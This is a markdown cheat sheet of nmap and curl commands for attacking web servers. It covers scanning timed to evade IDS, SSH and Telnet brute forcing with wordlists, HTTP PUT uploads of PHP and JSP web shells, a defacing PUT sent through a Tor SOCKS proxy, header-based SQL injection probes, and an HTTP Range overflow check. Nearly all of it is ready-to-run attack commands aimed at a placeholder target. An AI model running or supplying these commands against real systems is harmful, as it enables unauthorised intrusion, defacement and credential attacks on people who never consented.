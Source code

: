# <img width="28" src="http://0z3r00t3r.6te.net/img/folder.png"> Nmap 
##### &#x1F538; options:
    #(OPTION): -P0 |-> skip ping
    #(OPTION): -iL list.txt |-> to scan file with ips websites
    #(OPTION): -T0 / or / -T1 |-> avoid IDS detection firewall
    #(OPTION): -oG scan.txt |-> Grepable output
    #(OPTION): -sW |-> TCP windows port scan
    #(OPTION): -sS / -sT / -sU / -sA / -sM |-> TCP SYN - TCP port - UDP - TCP ACK - TCP Maimon port
    #(OPTION): -sL |-> No scan list targets only
    #(OPTION): -sn |-> disable port scan
    #(OPTION): -Pn |-> disable host - port only
    #(OPTION): -n |-> never do dns resolution

##### &#x1F538; xml.out to use php insert :
    - sudo nmap -d -sV -Pn -F -sS -n -O -A --script=default,external,ssl-heartbleed --script-args shodan-api.apikey=api-Key-Here -oX out.xml <TARGET>

##### &#x1F538; Supported Methods: GET HEAD POST OPTIONS :
    nmap -script http-methods -p443 -script-args http-methods.url-path='/' <TARGET>

##### &#x1F538;  SSH Brute Cmd : 
    nmap -p 22 --script ssh-brute --script-args userdb=/opt/backbox/user.txt,passdb=/opt/backbox/pass.txt --script-args ssh-brute.timeout=4s <TARGET>

##### &#x1F538;  Telnet Brute Cmd : 
    nmap -p 23 --script telnet-brute --script-args userdb=/opt/backbox/user.txt,passdb=/opt/backbox/pass.txt,telnet-brute.timeout=8s <TARGET>

##### &#x1F538;  Put method : 
    nmap -script http-put -script-args http-put.url='/shell.php',http-put.file='/shell.txt' -p 80 <TARGET>

#### &#x1F538; Print options : 

    #print ip + website
      nmap -p80 -Pn -oG - <TARGET>/24 | awk '/open/{print $2 " " $3}'

    #print ip + port open
      nmap -vv <TARGET>/24  | awk -F'[ /]' '/Discovered open port/{print $NF":"$4}'

    #print websites only
      nmap -sL -oG - <TARGET>/24 | awk '$3~/\(.+\)/{print $3}' | tr -d '()'

    #print ip only using port 22
      nmap -n -sn -PS22 -oG - <TARGET>/24 | awk '/Status: Up$/{print $2}'

    #print IP addresses that are up
      nmap -n -sn -oG - <TARGET>/24 | awk '/Status: Up$/{print $2}'

#### &#x1F538; Domains : 
    nmap --script=dns-brute.nse <TARGET>
    nmap --script=auth <TARGET>
    nmap --script=default <TARGET>
    nmap -Pn --script=vuln <TARGET>
    nmap -n -p445 --script=broadcast <TARGET>
    nmap --script external <TARGET>
    nmap -p 53 --script dns-zone-transfer.nse -v <TARGET>
    nmap -Pn -sV --script=vulners <TARGET>
    nmap --script http-methods --script-args http-methods.url-path='/' <TARGET>
    nmap -p 80 --script dns-brute.nse <TARGET>
    nmap -sV --script=vulscan/vulscan.nse <TARGET>
    nmap -O --script external -oX out.xml <TARGET>
    nmap -d --script ssl-heartbleed --script-args vulns.showall -sV <TARGET> -oX s.xml
    sudo nmap -PN -F -O -A --script=default,external,ssl-heartbleed -sV -oX targetoutput.xml -d <TARGET>
    nmap -sV --script ./sourcfile.nse <TARGET>
    nmap -sV --script http-sec-headers.nse <TARGET>
    nmap -F --script icap-info <TARGET>
    nmap --script=http-enum -p80 -n 
    nmap -p 1344 --script icap-info <TARGET>
    
    
# <img width="28" src="http://0z3r00t3r.6te.net/img/folder.png"> Curl : 

##### &#x1F538; print server name using curl
`curl -i -v --url <TARGET> 2> /dev/null | grep Server`

##### &#x1F538; SCAN 443 With Curl
`curl -insecure -v -X OPTIONS <TARGET>`
    
##### &#x1F538; Curl Injection :     
`curl -v --header "X-CustomHeader: SQLi" --cookie "Set-Cookie:SQLi" --user-agent "User-Agent: SQLi" -H "Accept: application/json-SQLi" -H "Set-Cookie: SQLi"\"  <TARGET>`
    
##### &#x1F538; PUT FILE WITH Curl :
`curl -i -X PUT -H "Content-Type: text/plain; charset=utf-8" -d "HACKED By" <TARGET>/x.php --socks5 127.0.0.1:9050`

##### &#x1F538; AnyCMD:
    #Bypass : `curl --resolve www.DOMAIN.com:80:127.0.0.1 <TARGET>`
    #http Status : `curl -sL -w "%{http_code}\n" "<TARGET/DOMAIN>" -o /dev/null`
    
##### &#x1F538; Requested Range Not Stisfiable vulnerable : 
    curl -v <TARGET> -H "Host: <TARGET>" -H "Range: bytes=0-18446744073709551615" -k
   
   #Turn WiFi OFF : `nmcli radio wifi off` &#x274C;
   
   #Turn WiFi ON : `nmcli radio wifi on` &#x2714;
   
##### &#x1F538; generate shell as js or jsp and use terminal to upload to the target:  

`proxychains curl -X PUT <TARGET>:79/admin/js.jsp -d @- < /opt/shell.js`

 
    
